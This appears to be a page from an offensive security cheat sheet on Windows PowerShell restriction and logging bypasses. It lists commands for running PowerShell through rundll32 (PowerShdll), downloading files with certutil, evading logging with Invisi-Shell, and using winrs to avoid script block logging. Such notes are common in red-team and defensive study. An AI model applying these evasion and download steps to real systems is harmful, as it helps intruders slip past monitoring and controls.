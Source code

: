 ### PowerShdll Run PowerShell with dlls only.
- https://github.com/p3nt4/PowerShdll
- Does not require access to powershell.exe as it uses powershell automation dlls.
```
rundll32 PowerShdll,main -i
```

#### Download files with certutil
- You can not use iwr but you can use certutil in constrained language mode
```
certutil -urlcache -split -f <URL>
```

#### Execute scripts
- It is possible to execute scripts on the filesystem but you can't load them!
- If applocker is there enumerate it to find a directory that lets you execute scripts in

### Logging evasion
#### Invisi-shell
- Bypasses all logging
- https://github.com/OmerYa/Invisi-Shell
- Type exit from the new PowerShell session to complete the clean-up.

#### With admin privileges
```
./RunWithPathAsAdmin.bat 
```

#### With non-admin privileges:
```
RunWithRegistryNonAdmin.bat
```

#### Script Block logging bypass
- Bypass [ETW](#ETW)

##### Winrs
- Use Winrs instead of PSRemoting to evade System-wide-transcript and deep script block logging
```
winrs -remote:server1 -u:<COMPUTERNAME>\<USER> -p:<PASS> hostname
```

### Just Enough Admin
- Defines allowed cmdledt and commands that are allowed by defining role capabilities.

#### Connect with JEA endpoint
- Use `DOMAIN\USER` format
```
$creds = get-credential
$sess = New-PSSession -ComputerName <FQDN> -ConfigurationName <JEA ENDPOINT CONF NAME> -Credential $creds
```
